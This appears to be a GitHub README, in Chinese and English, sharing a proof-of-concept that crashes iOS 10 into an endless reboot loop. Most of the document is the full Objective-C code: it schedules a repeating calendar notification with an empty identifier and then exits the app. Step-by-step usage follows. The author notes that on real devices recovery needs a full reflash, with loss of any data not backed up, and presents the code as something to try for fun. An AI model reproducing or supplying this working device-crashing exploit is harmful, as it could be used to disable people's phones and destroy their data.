 iOS10-Bug-Demo
==============
[![preview](https://travis-ci.org/Joker-388/MessageImageCategory.svg?branch=master)](http://www.sixstr.me)&nbsp;<br><br>
[![preview](https://github.com/Joker-388/iOS10-Bug-Demo/blob/master/Preview/crash1.gif)](http://www.sixstr.me)&nbsp;
<br><br>
让iOS系统崩溃无限黑屏重启，这里分享一下Demo，建议在虚拟机跑，无限重启后选择虚拟机reset content and settings就可以恢复。

友情提示：别在真机跑，不然真机也会无限重启，只能通过iTunes调试模式重新刷机恢复，数据未备份会全部丢失。

觉得好玩顺手点一个star，前期说谢谢啦。
==============

<br/>
---
使用方法：
==============
1.点击准备按钮，同意app发送通知。<br>
2.点击开始按钮，app崩溃，设备无限黑屏重启。<br>

<br/>
---
English
==============
Let ios10 crash and restart by circle. You can try it both on simulator and device.<br>
Tip: If you run it on device, you can only reinstall the system with iTunes. <br>
1.Click ready button, allow app authorization.<br>
2.Click start button, app clash, and device restart again and again.<br>
<br/>
---
Code
==============
 ```objective-c		 
     UNMutableNotificationContent *content = [[UNMutableNotificationContent alloc] init];		
     content.badge = @2;		
     content.body = @"body";		
     content.sound = [UNNotificationSound defaultSound];		
     content.subtitle = @"subtitle";		
     content.title = @"title";		
     		
     NSDate *date = [NSDate new];		
     NSDateFormatter *formatter = [NSDateFormatter new];		
     [formatter setDateFormat:@"yyyy"];		
     NSInteger currentYear=[[formatter stringFromDate:date] integerValue];		
     [formatter setDateFormat:@"MM"];		
     NSInteger currentMonth=[[formatter stringFromDate:date]integerValue];		
     [formatter setDateFormat:@"dd"];		
     NSInteger currentDay=[[formatter stringFromDate:date] integerValue];		
     [formatter setDateFormat:@"HH"];		
     NSInteger currentHour=[[formatter stringFromDate:date] integerValue];		
     [formatter setDateFormat:@"mm"];		
     NSInteger currentMinute=[[formatter stringFromDate:date] integerValue];		
     [formatter setDateFormat:@"ss"];		
     NSInteger currentSecond=[[formatter stringFromDate:date] integerValue];		
     		
     if (currentSecond + 2 > 59) {		
         currentMinute = currentMinute + 1;		
         currentSecond = 0;		
     } else {		
         currentSecond = currentSecond + 2;		
     }		
     		
     NSDateComponents *components = [NSDateComponents new];		
     components.year = currentYear;		
     components.month = currentMonth;		
     components.day = currentDay;		
     components.hour = currentHour;		
     components.minute = currentMinute;		
     components.second = currentSecond;		
     		
     UNCalendarNotificationTrigger *trigger = [UNCalendarNotificationTrigger triggerWithDateMatchingComponents:components repeats:YES];		
     UNNotificationRequest *request = [UNNotificationRequest requestWithIdentifier:@"" content:content trigger:trigger];		
     [[UNUserNotificationCenter currentNotificationCenter] addNotificationRequest:request withCompletionHandler:^(NSError * _Nullable error) {		
         exit(0);		
     }];		
 ```

